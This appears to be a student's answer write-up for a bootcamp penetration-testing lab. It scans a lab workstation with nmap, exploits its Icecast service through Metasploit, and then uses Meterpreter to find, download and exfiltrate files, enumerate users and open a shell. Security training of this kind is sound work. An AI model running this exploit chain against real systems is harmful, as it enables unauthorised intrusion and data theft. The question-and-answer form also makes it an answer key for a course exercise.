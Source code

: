 You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


Perform a service and version scan using Nmap to determine which services are up and running:


Run the Nmap command that performs a service and version scan against the target.

Answer: nmap -sV 192.168.0.6 





From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:


Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast




Now that we know which exploits are available to us, let's start Metasploit:


Run the command that starts Metasploit:

Answer: msfconsole





Search for the Icecast module and load it for use.


Run the command to search for the Icecast module:

Answer: search icecast

![search_icecast](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/Search_Icecast.JPG)


Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use 


![use_exploit](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/Use_exploit.JPG)


Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: Set RHOST 192.168.0.6





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run

![run_exploit](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/set_RHOST_Run.JPG)

You should now have a Meterpreter session open.



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f *secretfile.txt -r




Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt -r

![search_secret](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/search_secret.JPG)

Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt" "output file name"

![search_recipe](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/search_recipe.JPG)

![copy_recipe](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/download_recipe.JPG)

You can also use Meterpreter's local exploit suggester to find possible exploits.


Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users 

![enum_users](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/enum_logged_on_users.JPG_)

B. Open a Meterpreter shell.

Answer: shell

C. Run the command that displays the target's computer system information:

Answer: sysinfo

![sysinfo](https://github.com/shansen18/BootCamp/blob/d4348fcf0f79e669ebb3d1948b923f38479c7b90/Week17/images/sysinfo.JPG)